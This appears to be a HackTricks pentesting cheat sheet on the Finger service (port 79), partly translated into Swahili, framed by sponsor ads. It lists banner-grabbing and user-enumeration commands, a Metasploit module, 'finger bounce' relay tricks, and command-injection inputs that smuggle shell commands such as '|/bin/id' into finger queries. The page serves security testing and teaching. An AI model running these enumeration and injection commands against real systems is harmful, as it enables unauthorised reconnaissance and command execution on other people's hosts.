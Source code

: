 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Uhesabu**

### **Kuchukua Bango/Kuunganisha Msingi**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Uainishaji wa watumiaji**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Mbadala, unaweza kutumia **finger-user-enum** kutoka [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), mifano kadhaa:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap tekeleza script kwa kutumia scripts za default**

### Metasploit inatumia hila zaidi kuliko Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Utekelezaji wa amri
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Tumia mfumo kama finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Pata mtazamo wa hacker kuhusu programu zako za wavuti, mtandao, na wingu

**Pata na ripoti mapungufu makubwa, yanayoweza kutumiwa kwa faida na athari halisi za kibiashara.** Tumia zana zetu zaidi ya 20 za kawaida kupanga uso wa shambulio, pata masuala ya usalama yanayokuruhusu kupandisha mamlaka, na tumia matumizi ya moja kwa moja kukusanya ushahidi muhimu, ukigeuza kazi yako ngumu kuwa ripoti za kushawishi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
